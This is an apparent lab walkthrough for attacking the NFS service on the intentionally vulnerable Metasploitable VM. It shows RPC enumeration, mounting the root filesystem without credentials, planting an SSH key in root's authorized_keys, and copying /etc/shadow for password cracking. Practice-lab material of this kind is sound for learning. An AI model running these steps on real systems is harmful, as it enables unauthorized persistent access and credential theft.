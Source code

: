 
Metasploitable/NFS
Contents [hide]

    1 Network File System
        1.1 Abusing
        1.2 Dismount When Finished
    2 Flags

Network File System

The Metasploitable virtual machine has some network file system ports open, making it wide-open to attacks. (More info on network file systems generally at Linux/NFS)

The Metasploitable machine is at 10.0.0.27.

Start by checking out what network services are running - use the rpcinfo command to do that:

# rpcinfo -p 10.0.0.27

This will return information about open ports and RPC services. We can see that there is an NFS service listening on port 2049:

root@morpheus:~# rpcinfo -p 10.0.0.27
   program vers proto   port  service
    100000    2   tcp    111  portmapper
    100000    2   udp    111  portmapper
    100024    1   udp  38085  status
    100024    1   tcp  52004  status
    100003    2   udp   2049  nfs
    100003    3   udp   2049  nfs
    100003    4   udp   2049  nfs
    100021    1   udp  60702  nlockmgr
    100021    3   udp  60702  nlockmgr
    100021    4   udp  60702  nlockmgr
    100003    2   tcp   2049  nfs
    100003    3   tcp   2049  nfs
    100003    4   tcp   2049  nfs
    100021    1   tcp  34385  nlockmgr
    100021    3   tcp  34385  nlockmgr
    100021    4   tcp  34385  nlockmgr
    100005    1   udp  45599  mountd
    100005    1   tcp  42810  mountd
    100005    2   udp  45599  mountd
    100005    2   tcp  42810  mountd
    100005    3   udp  45599  mountd
    100005    3   tcp  42810  mountd

Now use the showmount command to show what file systems are mountable on this NFS:

root@morpheus:~# showmount -e 10.0.0.27
Export list for 10.0.0.27:
/ *

Woot - the entire filesystem is mountable/writable!

To mount the network filesystem, we need to run the RPC service rpcbind.

# service rpcbind start

Now we can mount the filesystem at the IP address, with no credentials:

# mkdir /tmp/r00t
# mount -t nfs 10.0.0.27:/ /tmp/r00t

Abusing

Now we can abuse our write access to the filesystem by copying an SSH key into the remote machine's trusted SSH keys, and obtain passwordless remote access:

# cat ~/.ssh/id_rsa.pub >> /tmp/r00t/root/.ssh/authorized_keys

We can copy the shadow file to the local disk to crack with John the Ripper:

# cp /tmp/r00t/etc/shadow ~/victim_shadow_file

We could also use the Metasploit post modules, for information-gathering on Linux machines.
Dismount When Finished

Dismount when finished to make sure all those goodies you left behind actually end up being written to the disk:

# umount /tmp/r00t
